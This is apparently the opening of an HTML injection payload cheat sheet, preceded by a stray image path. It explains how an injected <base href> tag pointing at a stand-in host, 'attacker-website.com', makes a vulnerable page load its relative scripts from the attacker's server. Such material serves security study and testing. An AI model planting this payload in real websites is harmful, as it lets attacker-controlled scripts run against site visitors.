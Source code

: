 # HTMLi
HTML Injection Payloads

## base

The HTML 
 element specifies the base URL to use for all relative URLs in a document.
Note: If multiple <base> elements are used, only the first href and first target are obeyed — all others are ignored.

### Relative URL redirection
`<base>` tag injection allows you to redirect relative url to the attacker host. For example, if the vulnerable site includes a script:
```html
<script src="/assets/some-script.js"></script>
```

so, if you inject before the relative remote script:
```html
<base href="https://attacker-website.com">
```
the browser will request https://attacker-website.com/assets/some-script.js.
